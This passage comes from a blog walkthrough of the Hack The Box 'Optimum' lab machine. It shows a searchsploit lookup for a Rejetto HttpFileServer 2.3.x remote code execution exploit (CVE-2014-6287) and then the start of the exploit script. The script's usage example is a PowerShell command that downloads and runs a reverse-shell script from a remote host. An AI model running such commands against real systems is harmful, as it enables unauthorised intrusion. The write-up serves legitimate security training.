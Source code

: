 It didn't find anything new.

# Website

The website is an old looking file server:

![](/assets/images/blogs/Pasted image 20210613111026.png)

I ran a [gobuster scan](#gobuster) in the background while I poked around.

## Trying HFS Exploits

I tried a few different exploits here. As always I'll include the failed attempts so you can see the debugging process, but you can [skip to the right one](#working-hfs-exploit).

My first thought was to try and see if I could upload a file or exploit a CVE, so I ran `searchsploit`. It had one result:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/optimum]
└─$ searchsploit httpfileserver
----------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                         |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)                                                                                                            | windows/webapps/49125.py
----------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

The exploit is really short:

{% raw %}
```python
# Exploit Title: Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)
# Google Dork: intext:"httpfileserver 2.3"
# Date: 28-11-2020
# Remote: Yes
# Exploit Author: Óscar Andreu
# Vendor Homepage: http://rejetto.com/
# Software Link: http://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Windows Server 2008 , Windows 8, Windows 7
# CVE : CVE-2014-6287

#!/usr/bin/python3

# Usage :  python3 Exploit.py <RHOST> <Target RPORT> <Command>
# Example: python3 HttpFileServer_2.3.x_rce.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.4/shells/mini-reverse.ps1')"

import urllib3
import sys
import urllib.parse

try:
```